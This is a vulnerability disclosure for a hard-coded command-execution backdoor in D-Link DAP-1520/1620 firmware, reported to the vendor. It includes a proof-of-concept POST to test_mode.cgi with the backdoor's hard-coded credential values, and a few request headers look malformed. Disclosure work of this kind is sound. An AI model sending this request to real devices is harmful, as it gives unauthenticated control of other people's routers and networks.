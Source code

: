 # D-Link dap-1520, 1620 hardcoded backdoor

## firmware information

Vendor: D-Link

Product: D-Link dap-1620, D-Link dap-1520

Affected product

For dap-1620, the following version is affected

- DAP-1620_REVA_FIRMWARE_PATCH_1.04.B04_BETA03
- DAP-1620_REVA_FIRMWARE_1.01.B05
- DIR-1620_REVA_FIRMWARE_1.04.B04
- DAP-1620_REVA_FIRMWARE_1.03.B08
- DAP-1620_REVA_FIRMWARE_v1.05B05

For dap-1520, the following version is affected

- DAP-1520_REVA_FIRMWARE_PATCH_1.09.B01_BETA04

Support URL

https://www.dlink.com/uk/en/products/dap-1520-wifi-ac750-range-extender

https://www.dlink.com/rs/sr/products/dap-1620-ac1300-wifi-range-extender

## Vulnerability description

In D-Link dap-1520, 1620, its `test_mode.cgi` in binary `/bin/ssi` contains a hard-coded backdoor. Unauthenticated attackers can send hard-coded command to the firmware and execute arbitrary commands.

The following code contains the decompiled code of the backdoor. In function `do_mp_method` (at address `0x40EA80` in binary `/bin/ssi`), the following code handles user's requests posting to `test_mode.cgi`

![image-20250220150823473](dap1620_backdoor.assets/image-20250220150823473.png)

If user posts the following code 

`accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>`

The firmware will process user's input, and decode the content provided in `cmds` field. If it's not the same with "reboot" or "nvram" and transfer it as the argument to function `sub_40e910`

The following code represent `sub_40e910`. It executes attackers' command without any sanitizing.

![image-20250220151108594](dap1620_backdoor.assets/image-20250220151108594.png)

However, in the firmware's configuration file `etc/conf.d/graph_auth.conf`, it can be found that this url is intended set to be able to view as unauthenticated, which means any unauthenticated user can execute arbitrary command through this malicious cgi.

![image-20250220151727008](dap1620_backdoor.assets/image-20250220151727008.png)

## POC

replace \<base64 encode of command\> field is to real command in base64 format to reproduce this vulnerability

```txt
POST /test_mode.cgi
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49
accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>
```

## timeline

\[25-02-20\] report to vendor